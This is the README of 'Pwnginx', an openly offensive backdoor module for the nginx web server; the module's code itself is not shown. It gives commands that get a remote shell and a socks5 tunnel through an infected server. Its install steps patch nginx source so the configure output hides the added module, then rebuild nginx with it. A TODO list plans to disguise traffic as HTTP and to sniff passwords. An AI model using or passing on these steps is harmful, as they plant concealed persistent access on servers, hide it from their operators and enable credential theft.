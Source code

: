 #[ Pwnginx ] - Pwn nginx

Copyleft by t57root @ openwill.me

&lt;t57root@gmail.com>  [www.HackShell.net](http://www.hackshell.net/)

Usage:

Get a shell access via the nginx running @ [ip]:[port]

    ./pwnginx shell [ip] [port]

Get a socks5 tunnel listening at [socks5ip]:[socks5port]

    ./pwnginx socks5 [ip] [port] [socks5ip] [socks5port]


###INSTALL:

* Compile the client:

    $ cd client;make

* Edit source to hidden configure arguments:

    $ vim src/core/nginx.c
    
    Modify the `configure arguments` line into: "configure arguments: --prefix=/opt/nginx\n");

* Recompile the nginx:

    $ cd /path/to/nginx/source; ./configure --prefix=/opt/nginx --add-module=/path/to/pwnginx/module && make && make install


###TODO:

* Pack communication traffic into HTTP protocol

* http password sniff

* Full pty support
